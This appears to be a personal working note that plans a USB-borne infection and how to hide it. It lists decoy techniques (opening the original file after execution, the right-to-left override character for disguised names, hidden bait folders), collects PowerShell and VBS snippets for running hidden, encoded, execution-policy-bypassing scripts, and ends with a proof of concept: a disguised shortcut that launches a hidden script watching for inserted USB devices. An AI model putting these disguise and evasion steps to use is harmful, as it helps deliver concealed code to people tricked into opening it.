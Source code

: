 ```yaml
---
tags:
  - Work
  - USB
banner: "![[binary-numbers-tunnel-1080p-hd-wallpaper-wallpapers-h-w-ibackgroundz.com.jpg]]"
---
```


# Ideas to hide files

## Hide original files

To hide the infection even after openen the file the following options are given:
1. When executing the manipulated file, open the original file to avoid raising suspicion.
2. When running the manipulated file, replace itself with the original file.

Left-To-Right overwrite Unicode character: 202E


### ==Additional data Streams==

### Hidden folder
1. create a new hidden Folder
2. replace picture and name of folder with invisible ones


## Hide powershell console

https://stackoverflow.com/questions/40617800/opening-powershell-script-and-hide-command-prompt-but-not-the-gui
Hiding the console for .ps1 files when openen with gui 
```powershell
# .Net methods for hiding/showing the console in the background
Add-Type -Name Window -Namespace Console -MemberDefinition '
[DllImport("Kernel32.dll")]
public static extern IntPtr GetConsoleWindow();

[DllImport("user32.dll")]
public static extern bool ShowWindow(IntPtr hWnd, Int32 nCmdShow);
'

function Show-Console
{
    $consolePtr = [Console.Window]::GetConsoleWindow()

    # Hide = 0,
    # ShowNormal = 1,
    # ShowMinimized = 2,
    # ShowMaximized = 3,
    # Maximize = 3,
    # ShowNormalNoActivate = 4,
    # Show = 5,
    # Minimize = 6,
    # ShowMinNoActivate = 7,
    # ShowNoActivate = 8,
    # Restore = 9,
    # ShowDefault = 10,
    # ForceMinimized = 11

    [Console.Window]::ShowWindow($consolePtr, 4)
}

function Hide-Console
{
    $consolePtr = [Console.Window]::GetConsoleWindow()
    #0 hide
    [Console.Window]::ShowWindow($consolePtr, 0)
}
```

To hide the console with this code, all you need to do is call `Hide-Console`. Since you already have code in the `Shown` event (`$objForm.Add_Shown`) we can simply add another line to call the command:
```powershell
$objForm.Add_Shown({
    $objForm.Activate()
    Hide-Console
})
```

---

https://stackoverflow.com/questions/1802127/how-to-run-a-powershell-script-without-displaying-a-window
I add this code in the beginning of all my PowerShell scripts that I need to run in background.
```powershell
# .Net methods for hiding/showing the console in the background
Add-Type -Name Window -Namespace Console -MemberDefinition '
[DllImport("Kernel32.dll")]
public static extern IntPtr GetConsoleWindow();

[DllImport("user32.dll")]
public static extern bool ShowWindow(IntPtr hWnd, Int32 nCmdShow);
'
function Hide-Console
{
    $consolePtr = [Console.Window]::GetConsoleWindow()
    #0 hide
    [Console.Window]::ShowWindow($consolePtr, 0)
}
Hide-Console
```

---

Create a shortcut that calls the PowerShell script and set the Run option to Minimized. This will prevent a window from flashing although you will still get a momentary blip of the script running on the Task Bar.

---

Make a vbs script to run a hidden batch file which launches the powershell script. Seems silly to make 3 files for this task but atleast the total size is less than 2KB and it runs perfect from tasker or manually (you dont see anything).

**scriptName.vbs**

```vbs
Set WinScriptHost = CreateObject("WScript.Shell")
WinScriptHost.Run Chr(34) & "C:\Users\leathan\Documents\scriptName.bat" & Chr(34), 0
Set WinScriptHost = Nothing
```

**scriptName.bat**

```batch
powershell.exe -ExecutionPolicy Bypass C:\Users\leathan\Documents\scriptName.ps1
```

**scriptName.ps1**

```powershell
Your magical code here.
```

---

A single vbs file solution. You first have to convert your ps script to base64 string, place it in a variable in the template shown below and save it as I vbs file. Runs without powershell popppring up.

```vbs
dim EncodedCommand
EncodedCommand = "COMMAND"

pSCmd = "powershell.exe -noexit -windowstyle Hidden -executionpolicy bypass -encodedcommand " & EncodedCommand

CreateObject("WScript.Shell").Run pSCmd, 0, True
```
---

# PoC

The Script can be executed through a shortcut with the following options:
```
powershell.exe -executionpolicy bypass -noexit -windowstyle hidden
```

Additionally should the run option be set to Minimized and the Icon and Name has to be changed.

If a folder is supposed to be the "bait", the folder needs to be hidden and the name copied.

This needs to be added at the end of the command:
```
explorer.exe .\<<folder>>
```
This opens a new explorer window with the open folder. 

The script to start a sub process that listenes to newly inserted USB devices:
```
# .Net methods for hiding/showing the console in the background
Add-Type -Name Window -Namespace Console -MemberDefinition '
[DllImport("Kernel32.dll")]
public static extern IntPtr GetConsoleWindow();

[DllImport("user32.dll")]
public static extern bool ShowWindow(IntPtr hWnd, Int32 nCmdShow);
'
function Hide-Console
{
    $consolePtr = [Console.Window]::GetConsoleWindow()
    #0 hide
    [Console.Window]::ShowWindow($consolePtr, 0)
}
Hide-Console
$Script = @'
    $Devices = Get-PnpDevice -PresentOnly | Where-Object { $_.InstanceId -match '^USB' }
    $DeviceCount= $Devices.Count
    while ($Devices.Count -le $DeviceCount) {
        Write-Host "Waiting for USB devices to be connected..."
        $Devices = Get-PnpDevice -PresentOnly | Where-Object { $_.InstanceId -match '^USB' }
        Start-Sleep -Seconds 0.1
    }
    Stop-Process -ID $PID
'@

Remove-Item -Path "C:\Users\Public\Documents\test.ps1" -Force
New-Item -Path "C:\Users\Public\Documents\test.ps1" -ItemType "file" -Value $Script
Start-Process powershell.exe -ArgumentList "-noexit", "C:\Users\Public\Documents\test.ps1" #-WindowStyle Hidden 
```

